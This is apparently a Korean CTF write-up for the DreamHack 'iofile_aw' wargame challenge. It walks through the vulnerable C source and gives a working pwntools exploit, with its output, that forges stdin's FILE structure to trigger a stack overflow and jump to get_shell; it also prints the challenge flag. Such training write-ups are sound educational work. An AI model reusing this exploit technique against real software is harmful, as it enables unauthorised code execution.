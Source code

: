 # [DreamHack] iofile_aw

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com) 

> 이 문제는 서버에서 작동하고 있는 서비스(iofile_aw)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 get_shell 함수를 실행시키세요.
> 셸을 획득한 후, “flag” 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [iofile_aw.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8550679/iofile_aw.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/162560321-8e54657c-e8e2-4e77-af09-31f973b7c0b9.png)

## Analysis

`read`, `help`, `printf`, `exit` 4개의 커맨드를 사용할 수 있다.

### read

```c
		if(!strcmp(command, "read")) {
			read_str();
		}
```

```c
char buf[80];

void read_str() {
	fgets(buf, sizeof(buf)-1, stdin);
}
```

전역 변수 `buf`에 79바이트만큼 입력을 받는다.

### help

```c
		else if(!strcmp(command, "help")) {
			help();
		}
```

```c
void help() {
	printf("read: Read a line from the standard input and split it into fields.\n");
}
```

별 거 없다.

### printf

```c
		else if(!strncmp(command, "printf", 6)) {
			if ( strtok(command, " ") ) {
				src = (long *)strtok(NULL, " ");
				dst = (long *)stdin;
				if(src) 
					memcpy(dst, src, 0x40);
			}				
		}
```

`printf <string>`의 형식으로 커맨드를 입력하면 `stdin`에 `<string>`을 복사한다. `stdin`을 최대 `0x40`바이트만큼 덮어쓸 수 있다. 따라서 `_flags`, `_IO_read_ptr`, `_IO_read_end`, `_IO_read_base`, `_IO_write_base`, `_IO_write_ptr`, `_IO_write_end`, `_IO_buf_base` 8개의 필드를 원하는 값으로 조작할 수 있다.

## Exploit

`_IO_buf_base`를 전역 변수 `size`의 주소로 조작하면 `size`를 원하는 값으로 덮을 수 있다. 충분히 큰 값으로 덮으면 `read_command()`에서 BOF가 발생하여 `main()`의 return address를 덮을 수 있다. `get_shell()`의 주소로 덮으면 셸을 획득할 수 있다.

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/iofile_aw')
else:
    r = remote('host1.dreamhack.games', 16842)

sl = r.sendline
sa = r.sendafter

get_shell = 0x4009fa  # get_shell()
buf = 0x602040  # global var <buf>
size = 0x602010  # global var <size>


# overwrite size with 0x1000

payload = p64(0xfbad208b)  # flag
payload += p64(0)  # _IO_read_ptr
payload += p64(0)  # _IO_read_end
payload += p64(0)  # _IO_read_base
payload += p64(0)  # _IO_write_base
payload += p64(0)  # _IO_write_ptr
payload += p64(0)  # _IO_write_end
payload += p64(size)  # _IO_buf_base

r.sendafter('# ', b'printf ' + payload)

r.sendafter('# ', 'read\x00')
r.sendline(p64(0x1000))


# overwrite return address of main() with get_shell()

r.sendafter('# ', b'exit\x00'.ljust(0x228, b'a') + p64(get_shell))


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 16842: Done
[*] Switching to interactive mode
$ cat flag
DH{ca23dc42d38746251b3c483158c4a271}
```